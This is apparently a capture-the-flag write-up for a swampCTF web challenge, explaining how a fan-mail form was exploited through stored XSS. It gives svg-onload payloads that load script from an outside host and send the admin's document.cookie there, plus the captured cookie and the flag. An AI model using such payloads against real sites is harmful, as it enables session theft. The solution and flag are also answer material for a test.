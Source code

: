 ## Sunset Boulevard

### Description

Welcome to the glitzy world of Broadway! The hit revival of "Sunset Boulevard" starring Nicole Scherzinger has taken the theater world by storm. As part of the fan engagement team, you've discovered a website where fans can send letters to the star. However, rumors suggest that a hidden admin dashboard contains something valuable - possibly the CTF flag.

### Solution

The website was a simple HTML page with a form to send letters to the stars. The form had a name, email and comment field. 

There was a really important hint above the comment box: "Share your thoughts and appreciation with Nicole. All fan mail will be reviewed by our security team before delivery. Fan mail will be delivered to the Broadway box office."

The hint gave me the idea that the comment box was vulvnerable to XSS because it was saying that the fan mail would be reviewed by the security team. Receiving the cookie of an admin or a security team member would be a good way to get the flag.

In the hint of the problem was also mentioned a website for automated XSS payloads. ("https://artoo.love/")

So I tried:
```javascript
<svg onload="import('//popjs.dev/Vfo8F')"></svg>
```
After a short amount of time I received a notification, that someone visited the link. But I didn't receive the cookie. I tried again with a different payload:
```javascript
<svg onload="import('//popjs.dev/Vfo8F' + document.cookie)"></svg>
```

This time I received the cookie inside the notification. I used the cookie to get the flag.
```javascript
 "url": "https://popjs.dev/Vfo8F?admin-auth=authenticated%3B%20swampCTF%3DswampCTF%7BTHIS_MUSICAL_WAS_REVOLUTIONARY_BUT_ALSO_KIND_OF_A_SNOOZE_FEST%7D"
```
The flag was indeed inside the cookie.

### Flag

```
swampCTF{THIS_MUSICAL_WAS_REVOLUTIONARY_BUT_ALSO_KIND_OF_A_SNOOZE_FEST}
``` 